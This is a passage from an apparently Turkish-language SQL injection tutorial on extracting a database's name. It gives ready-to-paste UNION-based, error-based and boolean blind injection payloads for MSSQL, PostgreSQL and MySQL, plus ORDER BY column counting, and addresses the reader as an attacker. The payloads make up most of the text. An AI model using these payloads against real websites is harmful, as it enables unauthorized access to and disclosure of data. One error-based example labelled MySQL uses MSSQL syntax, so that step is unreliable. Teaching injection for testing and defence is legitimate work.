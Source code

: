 ```sql
' UNION SELECT DB_NAME(), null, null-- -
```

PostgreSQL İçin
sql
```sql
' UNION SELECT current_database(), null, null-- -
```
- Eğer kaç sütun olduğunu bilmiyorsan, ORDER BY veya UNION SELECT NULL yöntemiyle tespit edebilirsin.
sql
```sql
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
```

- Hata verdiği yerde sütun sayısını bulmuş olursun.
Daha sonra:
sql
```sql
' UNION SELECT NULL, database(), NULL-- -
```
- Veritabanı adını ikinci sütunda görüntüleyebilirsin.

3. Error-Based SQL Injection ile Veritabanı İsmini Öğrenme
Eğer sistem hata mesajlarını döndürüyorsa, hata tabanlı SQL Injection yöntemini kullanabilirsin.
MySQL için:
sql
```sql
' AND 1=CONVERT(int, (SELECT database()))-- -
```

- Eğer sistem MySQL kullanıyorsa, bu sorgu bir hata döndürerek veritabanı adını gösterebilir.
MSSQL için:
sql
```sql
' AND 1=(SELECT DB_NAME())-- -
```
- MSSQL veritabanı adı döndürmeye çalışacaktır.

4. Boolean-Based (Kör SQL Injection) ile Veritabanı İsmini Öğrenme
Eğer sistem hata mesajlarını göstermiyor ama yanıt süreleri veya sonuçlar değişiyorsa, boolean tabanlı SQL Injection kullanılabilir.
Adım 1: Veritabanı adı tahmin etme
sql
```sql
' AND (SELECT database())='test_db'-- -
```
- Eğer sayfa aynı şekilde yükleniyorsa, veritabanı adı test_db olabilir.
✅ Eğer hata veriyorsa veya değişiklik oluyorsa, yanlış tahmin etmiş olabilirsin.
Adım 2: Karakter karakter doğrulama
Eğer veritabanı adını bilmiyorsan ve sistem tek karakterlik karşılaştırmalar yapıyorsa:
sql
```sql
' AND substring(database(),1,1)='t'-- -
```
